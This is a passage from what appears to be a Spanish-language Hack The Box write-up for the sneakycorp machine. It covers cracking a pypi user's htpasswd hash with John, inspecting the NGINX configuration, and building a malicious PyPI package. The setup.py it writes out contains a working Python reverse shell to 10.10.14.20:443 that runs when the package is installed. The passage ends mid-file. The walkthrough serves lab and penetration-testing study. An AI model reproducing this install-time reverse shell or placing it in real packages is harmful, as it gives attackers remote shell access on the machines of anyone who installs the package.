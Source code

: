 Vemos la contraseña del usuarion **pypi**. La copiamos en la maquina de atacante y tratamos de romperla con **John**

Por ultimo se puede ver un nuevo subdominio llamado `pypi.sneakycorp.htb`, lo introduzimos en el `/etc/hosts`

### Crackeo con John {-}

Copiamos el contenido del fichero .htpasswd en un fichero llamado hash

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Hemos podido crackear la contraseña del usuario pypi


### Descubrimiento de la configuration NGINX {-}

Intentando conectarnos a la web por el subdominio `pypi.sneakycorp.htb`, vemos que hay una redirection automatica al domino normal.
Sabiendo que estamos en frente de un **NGINX**, analizamos como el reverse proxy esta configurado.

```bash
cd /etc/nginx
ls
cd sites-enabled
cat sneakycorp.htb
cat pypi.sneakycorp.htb
```

Hay ya vemos que para ir al subdominio `pypi.sneakycorp.htb` tenemos que pasar por el puerto **8080**, y efectivamente si browseamos
la web con `pypi.sneakycorp.htb:8080` ya podemos ver la web del **pypi server**

### Crear un packete malicioso para pypi {-}

Como el servicio pypi es un server que tiene conectividad con el exterior, podemos seguir lo siguientes pasos en la maquina de atacante.

```bash
mkdir pypi
cd !$
mkdir pwned
cd !$
touch __init__.py
touch setup.py
```

El fichero `__init__.py` se queda vacio y el contenido del `setup.py` seria el siguiente.

```python
import setuptools
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.20",443))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

setuptools.setup(
    name="example-pkg-YOUR-USERNAME-HERE",
    version="0.0.1",
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
```